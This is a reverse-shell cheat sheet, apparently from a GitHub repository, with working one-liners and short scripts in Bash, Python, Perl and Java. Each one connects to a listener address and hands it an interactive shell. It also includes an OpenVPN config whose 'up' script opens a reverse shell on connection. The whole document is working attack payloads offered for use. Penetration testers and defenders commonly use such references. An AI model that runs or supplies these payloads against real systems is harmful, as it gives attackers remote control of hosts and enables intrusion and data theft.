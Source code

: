 
# Table of contents

1. [Bash](#bash)
2. [Python](#python)
3. [Perl](#perl)
4. [Java](#java)
5. [OpenVPN](#openvpn)




## Bash

> bash -i >& /dev/tcp/10.10.10.10/9999 0>&1


## Python

> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```
#Same but prettier
	import socket
	import subprocess
	import os

	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("10.0.0.1",1234))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	p=subprocess.call(["/bin/sh","-i"])

```


## Perl

> perl -e 'use Socket;$i="10.10.10.10";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```
	#Same but prettier
	use Socket;
	$i="10.0.0.1";
	$p=1234;
	socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
	if(connect(S,sockaddr_in($p,inet_aton($i)))){
		open(STDIN,">&S");
		open(STDOUT,">&S");
		open(STDERR,">&S");
		exec("/bin/sh -i");
};

```


## Java

```
r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.10.10/9999;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()
```

## OpenVPN

This will execute the command on the vpn server when the connection is made, please, replace the "<<things>>" (: !

```
remote <<VPNSERVER>>
ifconfig <<ip to assign>> <<ip to assign>>
dev tun
script-security 2
up "/bin/bash -c '/bin/bash -i &> /dev/tcp/10.10.10.10/9999 0<&1 2>&1&'"
nobind
```
